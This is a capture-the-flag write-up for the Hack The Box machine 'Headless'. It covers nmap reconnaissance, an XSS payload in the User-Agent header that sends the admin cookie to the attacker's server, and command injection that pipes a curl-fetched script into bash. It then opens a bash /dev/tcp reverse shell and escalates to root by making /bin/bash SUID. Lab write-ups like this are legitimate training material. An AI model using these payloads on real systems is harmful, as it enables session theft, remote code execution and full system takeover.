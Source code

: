 # Headless

#htb #xss #easy #nmap #privesc #rce

>David-Andrei Popa (contact@popadavid.ro)

## Solution

### User

Firstly, we scan the given IP using nmap.

```bash
nmap -sV -Pn 10.10.11.8
```

From the output of nmap, we can see that there are 2 services that are currently running on the machine.

```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 13:16 EDT
Nmap scan report for 10.10.11.8
Host is up (0.052s latency).
Not shown: 983 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
7/tcp     filtered echo
22/tcp    open     ssh            OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
1052/tcp  filtered ddt
1062/tcp  filtered veracity
1434/tcp  filtered ms-sql-m
3006/tcp  filtered deslogind
3260/tcp  filtered iscsi
3261/tcp  filtered winshadow
3371/tcp  filtered satvid-datalnk
5000/tcp  open     upnp?
5405/tcp  filtered pcduo
5718/tcp  filtered dpm
7921/tcp  filtered unknown
9000/tcp  filtered cslistener
9575/tcp  filtered unknown
9929/tcp  filtered nping-echo
50002/tcp filtered iiimsf
```

By navigating to `http://10.10.11.8:5000`, we can see that the website loads a cookie `is_admin`, which seems to check whether or not the user could access `/dashboard` (obtained from gobuster).

After going to `/support` and testing basic payloads, we observe that the webserver checks for XSS. We can bypass those checks by injecting the XSS payload in the User-Agent header.

Before injecting the payload, we start up a python webserver to get the admin cookie.

```bash
python -m http.server 9000
```

After starting the python webserver, we inject the XSS payload into the User-Agent. You can find more payloads and information [here](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting).

```js
<img src=x onerror=fetch("http://10.10.14.230:9000"+document.cookie);>
```

We obtain the admin cookie in the request logs of the python webserver.

Now we can access `/dashboard` successfully.

By analyzing the `POST` request that is being sent from `/dashboard`, we can see the `date` field in the body, which is vulnerable to command injection.

Using a classic remote shell payload, we can start up a remote connection to the machine using a bash shell.

```bash
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.230/4000 0>&1'
```

We start up our netcat listener on port 4000 and using our python webserver we download the shell on the machine.

```http
Request body

date=;curl "http://10.10.14.230:4000/shell.sh"|bash
```

Upon getting a reverse shell, we can use `pwd` to localize the current working directory. Thus, by navigating to the user's folder, we get the `user.txt` file.

### Root

At this point we could upgrade our shell if we want to. I decided to leave it as it is and proceed to the next goal.

By running `sudo -l`, we find out that our user can run the `/usr/bin/syscheck` binary with root privileges.

Upon inspecting the `/usr/bin/syscheck` binary, we see that it looks for a specific file in the local working directory named `initdb.sh`.

By creating the `initdb.sh` file in the local working directory, we can modify the permissions of `/bin/bash`.

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x ./initdb.sh
```

Now if we try to run `sudo /usr/bin/syscheck`, our file will be executed, thus changing the permissions of `/bin/bash`. Unlocking the root shell, we can execute `/bin/bash -p` and gain root privileges.

By navigating to `/root`, we can obtain the `root.txt` file.
